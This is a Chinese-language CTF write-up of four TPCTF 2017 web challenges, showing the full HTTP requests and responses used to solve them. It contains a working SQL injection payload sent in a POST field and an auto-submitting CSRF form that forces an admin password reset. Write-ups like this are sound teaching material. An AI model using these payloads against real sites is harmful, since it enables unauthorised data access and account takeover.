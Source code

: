 # TPCTF 2017 - Notes

## Methods

依題目名稱來看，用 OPTIONS 看該網站支援那些方法

```
$ curl -v -X OPTIONS http://methods.tpctf.com/problem
*   Trying 216.239.32.21...
* TCP_NODELAY set
* Connected to methods.tpctf.com (216.239.32.21) port 80 (#0)
> OPTIONS /problem HTTP/1.1
> Host: methods.tpctf.com
> User-Agent: curl/7.56.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Allow: OPTIONS, HEAD, DELETE, POST, GET
< Set-Cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.DQWYlg.AP3EbqS68v2AWoE7qPBxuj-5rfI; Expires=Sun, 03-Dec-2017 14:35:50 GMT; HttpOnly; Path=/
< X-Cloud-Trace-Context: b73375bee7db692185b6dd624ba02a3f
< Date: Sun, 03 Dec 2017 14:15:50 GMT
< Server: Google Frontend
< Content-Length: 0
< Expires: Sun, 03 Dec 2017 14:15:50 GMT
< Cache-Control: private
<
```

把可用的方法拿來試一試
```
$ curl -v -X DELETE http://methods.tpctf.com/problem
*   Trying 216.239.34.21...
* TCP_NODELAY set
* Connected to methods.tpctf.com (216.239.34.21) port 80 (#0)
> DELETE /problem HTTP/1.1
> Host: methods.tpctf.com
> User-Agent: curl/7.56.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Set-Cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.DQWaPA.Xk9LrL0JCcYytopoPk3-VCWGo8s; Expires=Sun, 03-Dec-2017 14:42:52 GMT; HttpOnly; Path=/
< X-Cloud-Trace-Context: a55967d2441e5de7054f7c098f5f5e18
< Date: Sun, 03 Dec 2017 14:22:52 GMT
< Server: Google Frontend
< Content-Length: 58
< Expires: Sun, 03 Dec 2017 14:22:52 GMT
< Cache-Control: private
<
* Connection #0 to host methods.tpctf.com left intact
Flag: tpctf{so_post_and_get_are_not_the_only_http_methods}
```

## What is this place?
> Description:
> https://repl.it/@clarencelam/caesar-again

打開網址可以看到

![image](https://github.com/solymx/CTF/blob/master/WEB/TPCTF%202017/img/1.png)

右邊的 result 有寫 where is my location ?

所以可以想是 ```window.location.href```

點 result 右邊的 console 

![image](https://github.com/solymx/CTF/blob/master/WEB/TPCTF%202017/img/2.png)

把 https://replit.org/data/web_project/64df16458ba95e01f7f67706af4602ed/index.html 點開

```
what is my location? i think i hid a hex string there

i think i hid a flag at http://tinyurl.com/1st-16-chars-of-the-hex

put text in text box and hit submit
```

打開 http://tinyurl.com/1st-16-chars-of-the-hex 

會看到網址轉成: https://hexed.it/#base64:Zmlyc3QgcGFydCBvZiB0aGUgZmxhZyBpcyB0cGN0Znt3NGk3Xw==

並看到第一個 flag ，那按照上面的提示 前一半 16個字

取 64df16458ba95e01f7f67706af4602ed 前一半

把網址改成: http://tinyurl.com/64df16458ba95e01

可以看到後半段 flag


## Management
> Description:
> I've created a new website so you can do all your important management. It includes users, creating things, reading things, and... well, not much else. Maybe there's a flag?
>
> hint:
![image](https://github.com/solymx/CTF/blob/master/WEB/TPCTF%202017/img/hint.png)


打開網站:
![image](https://github.com/solymx/CTF/blob/master/WEB/TPCTF%202017/img/3.png)

輸入 user1 登進去，並按 Read
![image](https://github.com/solymx/CTF/blob/master/WEB/TPCTF%202017/img/4.png)

然後用 fiddler 看一下，按了 Read 送的內容
```
POST http://web.tpctf.com:8558/ HTTP/1.1
Host: web.tpctf.com:8558
Connection: keep-alive
Content-Length: 27
Cache-Control: max-age=0
Origin: http://web.tpctf.com:8558
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://web.tpctf.com:8558/
Accept-Encoding: gzip, deflate
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: user=user1

number=1&value=&action=Read
```

那我們來改改 number 的值看看

改 number 的值為 name` FROM users LIMIT 1 OFFSET 0-- -

```
POST http://web.tpctf.com:8558/ HTTP/1.1
Host: web.tpctf.com:8558
Proxy-Connection: keep-alive
Content-Length: 27
Cache-Control: max-age=0
Origin: http://web.tpctf.com:8558
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://web.tpctf.com:8558/
Accept-Encoding: gzip, deflate
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: user=user1

number=name` FROM users LIMIT 1 OFFSET 0-- -&value=&action=Read
```
看到顯示為:

```
SELECT `name` FROM users LIMIT 1 OFFSET 0-- -` FROM users WHERE name = 'custom-user1';Result: custom-Hi
```

改 number 值為 name` FROM users LIMIT 1 OFFSET 1-- -

可以看到顯示為:
```
SELECT `name` FROM users LIMIT 1 OFFSET 1-- -` FROM users WHERE name = 'custom-user1';Result: flag{aLW4ys_ESC4PE_3v3rYTH1NG!!!!!}
```

## It's Common Sense
> Description:
> We found this site: Common Sense Reviews
> 
> We think the site owners are related to Pirates. Please retrieve the admin password.

點開網站
![image](https://github.com/solymx/CTF/blob/master/WEB/TPCTF%202017/img/5.png)

先註冊後登入，點選 Account 
![image](https://github.com/solymx/CTF/blob/master/WEB/TPCTF%202017/img/6.png)

有兩個功能可以用，第一個表單因為有 http only ，所以不能用 XSS

第二個功能是重置密碼，題目要求的是得到 admin 密碼

看一下重置密碼的 html
```html
<form action="" method="POST" id="newpwd">
                <label>Email</label><br/>
                <input required type="text" name="email" />
                <input type="hidden" value="Send Request" name="formbtn" />
                <input type="submit" value="Send Request" onclick="document.getElementById('newpwd').submit();"/>
</form>
```
將其改成
```html
<form action="/account" method="POST" id="newpwd">
                <label>Email</label><br/>
                <input required type="text" name="email" value="XXX-MAIL@gmail.com"/>
                <input type="hidden" value="Send Request" name="formbtn" />
                <input type="submit" value="Send Request" onclick="document.getElementById('newpwd').submit();"/>
</form>
<script>
document.newpwd.submit();
</script>
```

放到第一個表單送出

等一陣子可以收到e-mail
```
Congratulations! Normally, you would've reset the administrators password. For the purposes of this challenge, the flag is tpctf{D1D_Y0U_N0t1c3_Common_Sense_Reviews_1s_P4R7_0F_CSRF_19210jka010920aff}
```
